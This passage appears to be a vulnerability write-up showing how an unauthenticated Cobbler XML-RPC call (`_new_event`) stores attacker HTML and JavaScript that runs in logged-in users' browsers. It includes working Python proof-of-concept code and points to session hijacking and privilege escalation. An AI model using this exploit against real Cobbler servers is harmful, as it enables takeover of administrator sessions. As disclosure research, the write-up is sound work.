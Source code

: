 # The [First] Exploit

Let's try calling one just to see what happens.

```python
import xmlrpc.client

cobbler_connection = xmlrpc.client.ServerProxy("http://127.0.0.1/cobbler_api", allow_none=True)
try:
    cobbler_connection._new_event('Hello!')
except xmlrpc.client.Fault: #_new_event() returns None, which causes Cobbler's response renderer to fail
    pass 
```

As you might guess, this creates an "Event" with the name 'Hello!' which can be seen in the UI at `https://127.0.0.1/cobbler_web/events`

![The event displayed in the Cobbler Web UI]({{ "/img/cobbler_hello_event.png" }})

So I had a way to create objects in Cobbler using an unauthenticated endpoint. From an attacker's perspective, this is a good start. What could I do with it?

What happens if I pass in some HTML + JavaScript?:

```python
payload = """
<button onclick="myFunction()">Click me!</button>

<script>
function myFunction() {
    alert("Hah! you clicked!");
}
</script>
"""

cobbler_connection._new_event(payload)
```

![The event displayed in the Cobbler Web UI showing that the HTML is rendered and the JavaScript executed]({{ "/img/cobbler_js_event.png" }})

Yup. It renders it and executes the JavaScript. :smile:

So now I can execute arbitrary JavaScript once a user visits the Events page. This is a [Persistent XSS](https://en.wikipedia.org/wiki/Cross-site_scripting#Persistent_(or_stored)) vulnerability.

(Aside: this can also be done by injecting the payload into the 'State' attribute of the event using the `_set_task_state` endpoint)

Even better (from an attacker's perspective), when an event is created, anyone logged into the Cobbler UI at the time receives a notification popup which renders the Event:

![The event displayed in the Cobbler Web UI notification popup]({{ "/img/cobbler_event_popup.png" }})

This means that even if a user doesn't visit the Events page, I can execute arbitrary JavaScript.
Of course, being arbitrary JavaScript, I can edit the DOM to hide the popup from ever appearing, as well as hijack the user's session to perform authenticated requests on their behalf. Privilege escalation FTW!
